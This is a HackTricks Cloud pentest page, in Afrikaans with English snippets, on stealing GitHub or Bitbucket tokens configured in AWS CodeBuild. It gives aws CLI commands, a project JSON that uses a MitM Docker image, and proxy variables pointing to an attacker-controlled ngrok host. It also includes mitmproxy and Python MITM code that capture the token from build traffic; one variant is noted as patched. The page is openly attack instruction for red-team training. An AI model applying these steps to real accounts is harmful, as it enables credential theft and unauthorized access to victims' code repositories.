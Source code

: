 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Herstel Github/Bitbucket Geconfigureerde Tokens

Eerstens, kyk of daar enige bron geloofsbriewe geconfigureer is wat jy kan lek:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

As jy vind dat outentisering na byvoorbeeld Github in die rekening ingestel is, kan jy **exfiltrate** daardie **access** (**GH token of OAuth token**) deur Codebuild te laat **gebruik 'n spesifieke docker image** om die bou van die projek te loop.

Vir hierdie doel kan jy **'n nuwe Codebuild projek skep** of die **omgewing** van 'n bestaande een verander om die **Docker image** in te stel.

Die Docker image wat jy kan gebruik is [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Dit is 'n baie basiese Docker image wat die **env variables `https_proxy`**, **`http_proxy`** en **`SSL_CERT_FILE`** sal stel. Dit sal jou toelaat om die meeste van die verkeer van die gasheer wat in **`https_proxy`** en **`http_proxy`** aangedui is, te onderskep en die SSL CERT wat in **`SSL_CERT_FILE`** aangedui is, te vertrou.

1. **Create & Upload your own Docker MitM image**
* Volg die instruksies van die repo om jou proxy IP adres in te stel en jou SSL cert in te stel en **build die docker image**.
* **MOENIE `http_proxy` INSTEL NIE** om nie versoeke na die metadata eindpunt te onderskep nie.
* Jy kan **`ngrok`** gebruik soos `ngrok tcp 4444` om die proxy na jou gasheer in te stel.
* Sodra jy die Docker image gebou het, **laai dit op na 'n publieke repo** (Dockerhub, ECR...)
2. **Set the environment**
* Skep 'n **nuwe Codebuild projek** of **wysig** die omgewing van 'n bestaande een.
* Stel die projek in om die **voorheen gegenereerde Docker image** te gebruik.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

* Soos aangedui in die **Github repo** kan jy iets soos gebruik:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Die **mitmproxy weergawe wat gebruik is, was 9.0.1**, daar is gerapporteer dat dit met weergawe 10 dalk nie sal werk nie.
{% endhint %}

4. **Voer die bou uit & vang die geloofsbriewe**

*   Jy kan die token in die **Authorization** koptekst sien:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Dit kan ook vanaf die aws cli gedoen word met iets soos

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~Deur HTTP-protokol~~

{% hint style="success" %}
**Hierdie kwesbaarheid is op 'n stadium in die week van die 20ste Februarie 2023 deur AWS reggestel (ek dink op Vrydag). So 'n aanvaller kan dit nie meer misbruik nie :)**
{% endhint %}

'n Aanvaller met **verhoogde toestemmings in 'n CodeBuild kan die Github/Bitbucket token** lek wat gekonfigureer is of as toestemmings via OAuth gekonfigureer is, die **tydelike OAuth-token wat gebruik word om toegang tot die kode te verkry**.

* 'n Aanvaller kan die omgewing veranderlike **http\_proxy** en **https\_proxy** by die CodeBuild-projek voeg wat na sy masjien wys (byvoorbeeld `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Dan, verander die URL van die github repo om HTTP in plaas van HTTPS te gebruik, byvoorbeeld: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Dan, voer die basiese voorbeeld van [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) uit in die poort wat deur die proxy-variabeles (http\_proxy en https\_proxy) aangedui word.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Laastens, klik op **Bou die projek**, die **bewyse** sal in **duidelike teks** (base64) na die mitm-poort gestuur word:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Nou sal 'n aanvaller in staat wees om die token vanaf sy masjien te gebruik, al die voorregte wat dit het op te lys en (mis)bruik makliker as om die CodeBuild-diens direk te gebruik.
{% endhint %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
